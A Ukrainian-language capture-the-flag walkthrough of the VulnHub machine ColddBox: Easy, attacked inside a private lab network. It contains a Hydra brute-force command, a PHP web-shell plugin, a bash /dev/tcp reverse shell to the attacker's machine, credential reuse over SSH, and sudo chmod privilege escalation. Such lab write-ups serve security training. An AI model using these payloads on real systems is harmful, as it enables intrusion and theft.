## Мета: Проходження вразливої машини ColddBox: Easy (VulnHub CTF)

### Середовище: Kali Linux, VirtualBox (внутрішня мережа, ціль — 192.168.12.5), Dirb, Hydra, Netcat, Python3, SSH, GTFOBins.

**ColddBox: Easy** — вразлива машина на базі **WordPress**. Мета — отримати початковий доступ через веб-застосунок, а потім підвищити привілеї до **root**.

### Цілі
* Знайти вразливу машину в локальній мережі та визначити відкриті сервіси.
* Просканувати сайт на приховані директорії та знайти підказку з логіном.
* Підібрати пароль до панелі WordPress методом брутфорсу.
* Залити шкідливий плагін (веб-шелл) через адмін-панель і виконати команди на сервері.
* Отримати зворотний (reverse) shell та стабілізувати його до повноцінного TTY.
* Знайти облікові дані бази даних у конфігураційному файлі WordPress та повторно використати їх для SSH.
* Проаналізувати права **sudo** користувача та підвищити привілеї до root через `chmod` (GTFOBins).

---

### Основні терміни:
* **Dirb** — інструмент для брутфорсу директорій/файлів на веб-сервері за словником.
* **Hydra (http-post-form)** — брутфорс форм автентифікації через POST-запити.
* **Веб-шелл (web shell)** — шкідливий скрипт, залитий на сервер, що дозволяє виконувати системні команди через HTTP-запит.
* **Reverse shell** — зворотне підключення від сервера-жертви до атакуючої машини, яке надає інтерактивний доступ до командного рядка.
* **GTFOBins** — база даних Unix-утиліт, які можна використати для обходу обмежень безпеки (у т.ч. підвищення привілеїв), якщо їх дозволено запускати через sudo.
* **SUID-біт** — спеціальний прапорець файлу, що дозволяє виконувати його з правами власника файлу (тут — root), а не того, хто його запускає.

### Хід виконання

#### Крок 1. Розвідка мережі
Перевірила мережеві налаштування атакуючої машини (`ip a`) — Kali отримала адресу **192.168.12.3** в внутрішній мережі VirtualBox:



За допомогою сканера ARP-пакетів (netdiscover -r 192.168.12.0/24) знайшла в мережі другий хост — **192.168.12.5** (окрім шлюзу 192.168.12.2):



Просканувала знайдений хост **Nmap**: відкриті порти **4512/tcp (ssh)** та **80/tcp (http)**:



#### Крок 2. Сканування директорій (Dirb)

Далі відкрила сам вебдодаток, ввівши IP-адресу в URL рядок:



Запустила сканування прихованих директорій та файлів на цільовому сервері:
```
dirb http://192.168.12.5
```
Серед результатів знайшла приховану директорію **`/hidden/`**, а також стандартну структуру WordPress (`/wp-admin/`, `/wp-content/`, `/wp-includes/`) з кодом відповіді **302** для `wp-admin/admin.php` (ознака існуючої, але захищеної логіном сторінки):



#### Крок 3. Знайдена підказка з логіном
Перейшла за адресою **`http://192.168.12.5/hidden/`** і побачила зображення-повідомлення в терміновому тоні:
> *"U-R-G-E-N-T: **C0ldd**, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. — Philip"*

З цього повідомлення отримала ім'я користувача **`C0ldd`** — потенційний логін до WordPress:



#### Крок 4. Перевірка логіна на сторінці WP-Login

Перейшла на сторінку з формою для входу:



Спершу я перевірила рандомне ім'я користувача, якого не повинно було б бути в системі і отримала помилку про це (**Invalid username**):



Потім спробувала увійти під іменем **`C0ldd`** на стандартній сторінці `/wp-login.php` з довільним паролем. Отримала повідомлення:
> `ERROR: The password you entered for the username C0ldd is incorrect.`

Це підтвердило, що обліковий запис **`C0ldd`** існує в системі (WordPress по-різному відповідає на неіснуючий логін і на невірний пароль):



Переглянула вихідний код форми логіну (`view-source`) і зафіксувала точні назви полів форми — **`log`** (логін) та **`pwd`** (пароль) — вони знадобляться для налаштування брутфорсу:



#### Крок 5. Брутфорс паролю (Hydra)
Виконала атаку методом підбору пароля на форму логіну WordPress, використовуючи словник **rockyou.txt**:
```
hydra -l C0ldd -P /usr/share/wordlists/rockyou.txt 192.168.12.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect"
```
Через деякий час Hydra знайшла робочий пароль:
```
[80][http-post-form] host: 192.168.12.5   login: C0ldd   password: 9876543210
```



#### Крок 6. Вхід в адмін-панель та підготовка веб-шелла
Увійшла в адмін-панель WordPress під **C0ldd / 9876543210**. Локально підготувала PHP-файл веб-шелла:
```php
<?php
/*
Plugin Name: Shell
Version: 1.0
Author: Admin
*/
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
Файл зберегла як `wp-plugin.php`, запакувала у `.zip` (структура плагіна WordPress):





#### Крок 7. Завантаження шкідливого плагіна
У панелі адміністратора перейшла в **Plugins → Add Plugins → Upload Plugin** та завантажила підготовлений `.zip`-архів із шкідливим плагіном:




Після завантаження я активувала плагін та перевірила у **Plugin Editor**, що файл `shell1/wp-plugin.php` активний і містить саме той код, що й готувала:




Перевірила виконання команд, звернувшись за URL:
```
http://192.168.12.5/wp-content/plugins/shell1/wp-plugin.php?cmd=id
```
Отримала відповідь **`uid=33(www-data) gid=33(www-data) groups=33(www-data)`** — підтвердження **RCE (Remote Code Execution)** від імені веб-сервера:



#### Крок 8. Отримання Reverse Shell
На атакуючій машині відкрила слухача (listener) на порту **4444**:
```
nc -lnvp 4444
```
Далі через той самий веб-шелл виконала команду для зворотного підключення, підставивши її в параметр `cmd` через URL:
```
http://192.168.12.5/wp-content/plugins/shell1/wp-plugin.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.12.3/4444 0%261"
```
(символ `&` у payload'і закодований як `%26`, щоб коректно передався через URL). Одразу після відправки запиту на listener прийшло з'єднання від жертви:




#### Крок 9. Стабілізація shell'а до повноцінного TTY
Отриманий netcat-шелл був "сирим" — без підтримки автодоповнення, стрілок, `Ctrl+C` тощо. Стабілізувала його стандартним способом:

1. Усередині отриманого shell'а виконала:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
— це підмінює поточний shell на повноцінний `/bin/bash` через псевдотермінал (**pty**).

2. Призупинила сесію netcat комбінацією **`Ctrl+Z`** (перевела процес у фон на атакуючій машині).

3. На своєму терміналі (Kali) виконала:
```
stty raw -echo; fg
```
— команда `stty raw -echo` переводить локальний термінал у "сирий" режим (без буферизації рядків і без ехо вводу), після чого `fg` повертає призупинений netcat-процес на передній план. Це надає повноцінний інтерактивний shell з коректною роботою спецсимволів та комбінацій клавіш:



#### Крок 10. Пошук облікових даних у файлах WordPress
У стабілізованому shell'і виконала пошук стандартного файлу, який містить прапорець користувача:



Далі перейшла в кореневу директорію сайту та перевірила права доступу до файлів:
```
cd /var/www/html
ls -la
```
Звернула увагу, що файл **`wp-config.php`** мав права **`-rw-rw-rw-`** (доступний на запис усім користувачам системи) — потенційна додаткова вразливість, хоч і не використана на цьому кроці:



Переглянула вміст файлу:
```
cat wp-config.php
```
І знайшла облікові дані бази даних:
```
define('DB_USER', 'c0ldd');
define('DB_PASSWORD', 'cybersecurity');
```



#### Крок 11. Повторне використання облікових даних для SSH
Припустила, що користувач **c0ldd** міг використовувати той самий пароль і для системного облікового запису. Підключилась по SSH (сервіс слухав на нестандартному порту **4512**):
```
ssh c0ldd@192.168.12.5 -p 4512
```
Підтвердила автентичність нового хоста (`yes`), ввела пароль **`cybersecurity`** — вхід виконано успішно, отримала shell від імені системного користувача **c0ldd**:



#### Крок 12. Перший прапор (user flag)
У домашній директорії користувача прочитала файл прапора:
```
cat /home/c0ldd/user.txt
```
Вміст виявився закодованим у **Base64**. Декодувала прямо в терміналі:
```
echo "RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==" | base64 -d
```
Отримала повідомлення: **"Felicidades, primer nivel conseguido!"** (ісп. "Вітаю, перший рівень пройдено!"):



#### Крок 13. Аналіз прав sudo
Перевірила, які команди користувач **c0ldd** може виконувати з підвищеними правами:
```
sudo -l
```
Результат показав, що без пароля/з паролем **c0ldd** дозволено виконувати від імені root:
```
(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
```



#### Крок 14. Підвищення привілеїв через chmod (GTFOBins)
Звернулась до бази **GTFOBins** за технікою підвищення привілеїв через **`chmod`**: якщо `chmod` дозволено запускати через sudo, його можна використати, щоб виставити **SUID-біт** на потрібний файл (наприклад, на `/bin/bash` або, як у цьому випадку, безпосередньо змінити права на кореневу директорію для повного доступу):



Виконала:
```
sudo chmod 6777 root/
cd root/
ls
cat root.txt
```
Отримала фінальний прапор у Base64, який так само декодувала:
```
echo "wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSHCoQ==" | base64 -d
```
Результат: **"¡Felicidades, máquina completada!"** (ісп. "Вітаю, машину пройдено повністю!") — root отримано:



### Висновок

Машину **ColddBox: Easy** пройдено повністю — від першого запиту до сервера й до отримання прав **root**. Ланцюжок атаки послідовно охопив: знаходження вразливої машини та сканування відкритих портів, розвідку директорій (**Dirb**), знаходження логіна через приховану сторінку-підказку, брутфорс пароля (**Hydra**), експлуатацію можливості завантаження плагінів у WordPress для отримання **RCE** через саморобний веб-шелл, отримання та **стабілізацію reverse shell'а** (`python3 pty.spawn` + `stty raw -echo`), горизонтальне підвищення довіри через повторне використання пароля бази даних для SSH-доступу, і, нарешті, класичне вертикальне підвищення привілеїв до root через некоректно налаштоване правило **sudo** для `chmod` (за методикою **GTFOBins**). Робота демонструє типовий "ланцюжок" вразливостей реального застосунку WordPress: від слабкої гігієни паролів до небезпечних sudo-дозволів.
